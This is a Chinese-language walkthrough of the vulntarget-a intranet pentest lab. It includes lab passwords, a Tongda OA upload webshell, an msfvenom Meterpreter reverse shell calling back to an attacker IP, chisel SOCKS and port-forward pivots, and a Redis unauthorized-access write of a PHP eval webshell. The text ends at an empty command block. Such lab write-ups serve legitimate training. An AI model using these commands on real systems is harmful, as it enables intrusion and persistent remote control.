# vulntarget-a

## 简介

[vulntarget 漏洞靶场系列 (一) - 星期五实验室](https://mp.weixin.qq.com/s/uxwbnVOxkR8OBkkY9WW6aQ)

靶场的网络拓扑



需要在虚拟网络编辑器中，定义两个虚拟网络

```plaintext
VMnet18 Host-only: 10.0.20.0/24
VMnet19 Host-only: 10.0.10.0/24
```

`win7` 这台虚拟机作为入口机，默认的网卡包含一张桥接模式的虚拟网卡，可以视实际情况进行修改

直接导入 3 个虚拟机即可，公众号写的是设计靶场的过程

建议按照 `win2019` ->  `win2016`->  `win7` 的顺序进行启动虚拟机

:::warning

`win7 入口 win7` 这台靶机带有自动睡眠，需要注意

:::

```plaintext title="账号信息"
win2019 域控 - 2019

- 账号：administrator
- 密码：Admin@666

win2016 域成员 - 2016
- 账号：Administrator
- 密码：Admin@123

- 账号：balsec.com\win2016
- 密码：Admin#123

win7 入口 win7
- 账号：win7
- 密码：admin
```

## 入口探测

直接使用 `fscan` 对靶机进行扫描

```plaintext
start infoscan
192.168.200.10:80 open
192.168.200.10:139 open
192.168.200.10:135 open
192.168.200.10:445 open
[*] alive ports len is: 4
start vulscan
[*] NetInfo
[*]192.168.200.10
   [->]win7-PC
   [->]10.0.20.98
   [->]192.168.200.10
[*] WebTitle http://192.168.200.10     code:200 len:10065  title: 通达 OA 网络智能办公系统
[+] MS17-010 192.168.200.10     (Windows 7 Professional 7601 Service Pack 1)
[+] InfoScan http://192.168.200.10     [通达 OA]
[+] PocScan http://192.168.200.10 tongda-user-session-disclosure
[+] PocScan http://192.168.200.10 poc-yaml-tongda-oa-v11.9-api.ali.php-fileupload
```

很明显两个洞：通达 OA 的文件上传 + 永恒之蓝

永恒之蓝在没有安全软件的情况下可以直接杀到 system 权限，所以先尝试通达 OA 的洞

## 通达 OA 文件上传

直接无脑上工具

[R4gd0ll/I-Wanna-Get-All: OA 漏洞利用工具](https://github.com/R4gd0ll/I-Wanna-Get-All)



写入一个 webshell



```plaintext
Url: http://192.168.200.10/R4g1730385139621.php
Pwd: whoami
```

[achuna33/MYExploit: OAExploit 一款基于产品的一键扫描工具](https://github.com/achuna33/MYExploit)



尝试写入的 webshell



成功连接

## win7 持久化

构造马子实现持久化

```shell
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.200.129 LPORT=3333 -f exe > 192.168.200.129-3333.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
```

基于蚁剑上传至靶机



执行监听

```shell
$ msfconsole -q
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 3333
LPORT => 3333
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 0.0.0.0:3333
```



成功建立 Meterpreter 会话，并且已经是 `NT AUTHORITY\SYSTEM` 用户

## 建立内网代理

使用 `chisel` 建立内网代理

:::warning

需要注意，高版本 `go` 编译的二进制文件取消了对低版本 Windows 的支持，建议使用 `chisel v1.8.1`

:::

上传 `chisel` 二进制文件

```shell
meterpreter > upload ./tools/chisel-v1.8.1/chisel_1.8.1_windows_amd64.exe
[*] Uploading  : /home/randark/tools/chisel-v1.8.1/chisel_1.8.1_windows_amd64.exe -> chisel_1.8.1_windows_amd64.exe
[*] Uploaded 8.00 MiB of 8.59 MiB (93.14%): /home/randark/tools/chisel-v1.8.1/chisel_1.8.1_windows_amd64.exe -> chisel_1.8.1_windows_amd64.exe
[*] Uploaded 8.59 MiB of 8.59 MiB (100.0%): /home/randark/tools/chisel-v1.8.1/chisel_1.8.1_windows_amd64.exe -> chisel_1.8.1_windows_amd64.exe
[*] Completed  : /home/randark/tools/chisel-v1.8.1/chisel_1.8.1_windows_amd64.exe -> chisel_1.8.1_windows_amd64.exe
```

启动服务端

```shell title="kali 192.168.200.129"
$ ./tools/chisel-v1.8.1/chisel_1.8.1_linux_amd64 server -p 1337 --reverse
2024/10/31 22:44:56 server: Fingerprint ygeqrFtSRXQYYW1Xf04LJNLAtoveMD+jrlJ4jwApR+Y=
2024/10/31 22:44:56 server: Listening on http://0.0.0.0:1337
```

建立代理会话

```shell title="win7 192.168.200.10 | 10.0.20.98"
C:\>cmd /c chisel_1.8.1_windows_amd64.exe client 192.168.200.129:1337 R:0.0.0.0:10005:socks
cmd /c chisel_1.8.1_windows_amd64.exe client 192.168.200.129:1337 R:0.0.0.0:10005:socks
```

## 内网扫描

配置 `proxychains` 配置文件为 `chisel` 代理端口之后，使用 fscan 进行扫描

```plaintext
$ proxychains ./tools/fscan-1.8.4/fscan -h 10.0.20.0/24

start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 10.0.20.1       is alive
(icmp) Target 10.0.20.98      is alive
[*] Icmp alive hosts len is: 2
10.0.20.98:135 open
10.0.20.98:139 open
10.0.20.98:445 open
10.0.20.1:445 open
10.0.20.1:139 open
10.0.20.1:135 open
10.0.20.98:80 open
10.0.20.1:7680 open
10.0.20.1:7890 open
[*] alive ports len is: 9
start vulscan
[*] NetInfo
[*]10.0.20.98
   [->]win7-PC
   [->]10.0.20.98
   [->]192.168.200.10
[+] MS17-010 10.0.20.98 (Windows 7 Professional 7601 Service Pack 1)
[*] NetInfo
[*]10.0.20.1
   [->]DESKTOP-7HGIVVS
   [->]192.168.200.1
   [->]172.25.0.1
   [->]192.168.56.1
   [->]192.168.123.116
   [->]10.0.10.1
   [->]10.0.20.1
   [->]192.168.137.1
   [->]2001:0:2851:b9f0:8b3:1b5b:8fcc:f2a8
[*] WebTitle http://10.0.20.1:7890     code:400 len:0      title:None
[*] WebTitle http://10.0.20.98         code:200 len:10065  title: 通达 OA 网络智能办公系统
[+] InfoScan http://10.0.20.98         [通达 OA]
[+] PocScan http://10.0.20.98 tongda-user-session-disclosure
已完成 9/9
[*] 扫描结束, 耗时: 12.349497283s
```

排除掉 `win7 10.0.20.98` 和 `Vmware 10.0.20.1` 之后，会发现结果不对，因为 Windows Server 会不响应 ICMP 请求，可以通过查看 ARP 表来发现

```shell title="win7 192.168.200.10 | 10.0.20.98"
C:\>arp -a

Interface: 192.168.200.10 --- 0xb
  Internet Address      Physical Address      Type
  192.168.200.0         00-50-56-eb-cc-78     dynamic
  192.168.200.1         00-50-56-c0-00-00     dynamic
  192.168.200.129       00-0c-29-07-06-1a     dynamic
  192.168.200.254       00-50-56-fb-ab-25     dynamic
  192.168.200.255       ff-ff-ff-ff-ff-ff     static
  224.0.0.22            01-00-5e-00-00-16     static
  224.0.0.252           01-00-5e-00-00-fc     static
  239.255.255.250       01-00-5e-7f-ff-fa     static
  255.255.255.255       ff-ff-ff-ff-ff-ff     static

Interface: 10.0.20.98 --- 0xd
  Internet Address      Physical Address      Type
  10.0.20.1             00-50-56-c0-00-12     dynamic
  10.0.20.99            00-0c-29-49-db-32     dynamic
  10.0.20.254           00-50-56-f9-77-e1     dynamic
  10.0.20.255           ff-ff-ff-ff-ff-ff     static
```

可以发现存在有 `10.0.20.99` 主机，尝试扫描

```shell
$ proxychains ./tools/fscan-1.8.4/fscan -h 10.0.20.99 -np

start infoscan
10.0.20.99:80 open
10.0.20.99:6379 open
[*] alive ports len is: 2
start vulscan
[*] WebTitle http://10.0.20.99         code:200 len:11     title:None
[+] Redis 10.0.20.99:6379 unauthorized file:C:\Program Files\Redis/dump.rdb
已完成 2/2
[*] 扫描结束, 耗时: 10.492549051s
```

## win2016 redis 未授权

建立端口转发

```shell title="win7 192.168.200.10 | 10.0.20.98"
C:\>cmd /c chisel_1.8.1_windows_amd64.exe client 192.168.200.129:1337 R:0.0.0.0:10001:10.0.20.99:6379
cmd /c chisel_1.8.1_windows_amd64.exe client 192.168.200.129:1337 R:0.0.0.0:10001:10.0.20.99:6379
```

使用 [SafeGroceryStore/MDUT: MDUT - Multiple Database Utilization Tools](https://github.com/SafeGroceryStore/MDUT)



同时做一下目录扫描

```shell
Target: http://10.0.20.99/

[23:56:38] Starting:
[23:57:32] 200 -   14KB - /l.php
[23:57:43] 200 -   71KB - /phpinfo.php
```

查看 `phpinfo.php`



以及 `l.php`



知道网站的绝对路径之后，就可以配合写入 webshell

直接使用 Redis 未授权写入 webshel

```shell
$ proxychains -q redis-cli -h 10.0.20.99
10.0.20.99:6379> config set dir "C:/phpStudy/PHPTutorial/WWW/"
OK
10.0.20.99:6379> config set dbfilename shell.php
OK
10.0.20.99:6379> set webshell "<?php @eval($_POST['shell']);?>"
OK
10.0.20.99:6379> save
OK
10.0.20.99:6379> exit
```



怀疑存在有安全软件



查看网段信息

```shell
